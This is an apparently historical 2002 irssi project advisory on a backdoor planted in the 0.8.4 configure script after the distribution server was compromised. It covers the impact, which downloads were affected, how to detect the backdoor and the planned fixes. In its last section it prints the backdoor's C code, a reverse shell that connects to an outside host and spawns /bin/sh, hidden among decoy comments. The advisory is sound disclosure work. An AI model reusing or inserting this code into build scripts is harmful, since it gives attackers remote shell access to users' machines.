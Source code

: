 ```yaml
---
title: "Historical &ndash; irssi 0.8.4 backdoor"
layout: post
date: 2002-05-25
---
```


**irssi binary isn't backdoored, only the configure script that you
might have run while installing irssi.** This was done by cracking
into main.irssi.org and modifying the distributed tarball.

So, it seems someone has backdoored irssi's configure script sometimes
around 16 March, just a few days after 0.8.4 was released. Unless you
installed irssi before that, you might have run a backdoor that gave remote
attacker access to your computer.

**UPDATE (Jun 3rd):** I've heard of a few people's hard
drive being formatted due to this backdoor, but most of the people haven't
noticed anything.

#### What did the backdoor do? How to get rid of it?

The backdoored configure script spawns a new shell, connects to some
server and allows full shell access to it. So, it might have done
anything.

At least currently the server where it connects to doesn't do anything
automatically. I'd guess it just waits there for commands. As for fixing it,
it really depends on what it did, and we don't know that. So possibly it
didn't do anything, and you don't need to do anything, but possibly it ran a
rootkit or whatever and you'll need to reinstall your whole system. I'd
suggest doing that if you have any doubt.

In any case, you should make sure the process isn't running anymore by
killing all your /bin/sh processes, or by rebooting.

#### How do I know if I'm affected?

The backdoor was only in `configure`, the built binary itself
isn't backdoored. Here's some ways to figure out if you're affected:

- If you installed irssi from binary, you're safe.
- Debian sources aren't backdoored.
- Nightly source snapshots don't seem to be backdoored..
- CVS doesn't seem to be backdoored..
- irssi-0.8.4.tar.bz2 file wasn't backdoored, only the .gz one
- FreeBSD port isn't backdoored, as it used the .bz2 file
- irssi/SILC client isn't backdoored
- If you let irssi download the **GLib sources from irssi.org, they are backdoored** (the same configure thing as with irssi)
- If you still have the sources, check with `grep SOCK_STREAM configure`. If it returns any lines, it's backdoored.
- md5 checksum of originally released irssi-0.8.4.tar.gz is 57bf9d89638be3d377be211f0b0d7049. This is also the one of 0.8.4a.

#### Future plans

From now on, all new releases will be signed with GPG, and checked
automatically at least daily for any changes. I'll also start checksumming
and diffing any scripts and other stuff as well for changes.

main.irssi.org is also moved elsewhere for now, CVS is temporarily down
but everything else should work. Mirrors should catch up automatically
soon.

#### What exactly was the backdoor?

These lines were found from `configure` script:

            int s;
            struct sockaddr_in sa;
            switch(fork()) { case 0: break; default: exit(0); }
            if((s = socket(AF_INET, SOCK_STREAM, 0)) == (-1)) {
                    exit(1);
            }
      /* HP/UX 9 (%@#!) writes to sscanf strings */
            memset(&sa, 0, sizeof(sa));
            sa.sin_family = AF_INET;   
            sa.sin_port = htons(6667); 
            sa.sin_addr.s_addr = inet_addr("x.x.x.x");
            if(connect(s, (struct sockaddr *)&sa, sizeof(sa)) == (-1)) {
                    exit(1);
            }
            dup2(s, 0); dup2(s, 1); dup2(s, 2);
    /* The GNU C library defines this for functions which it implements
        to always fail with ENOSYS.  Some functions are actually named 
        something starting with __ and the normal name is an alias.  */
            { char *args[] = { "/bin/sh", NULL }; execve(args[0], args, NULL); }

Also the IP just changed yesterday from x.x.x.y.
